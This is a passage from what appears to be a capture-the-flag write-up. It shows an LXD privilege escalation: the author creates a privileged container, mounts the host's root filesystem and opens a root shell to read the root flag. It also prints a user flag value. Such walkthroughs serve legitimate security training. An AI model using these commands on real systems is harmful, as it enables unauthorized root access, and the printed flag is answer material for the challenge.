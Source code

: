 ```
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Finally we can start the container and start a root shell inside it.

```
lxc start privesc
lxc exec privesc /bin/sh
```

To access the root flag, we can navigate to the /mnt/root/root folder.

We successfully got the flag, congratulations!

user flag a56ef91d70cfbf2cdb8f454c006935a1
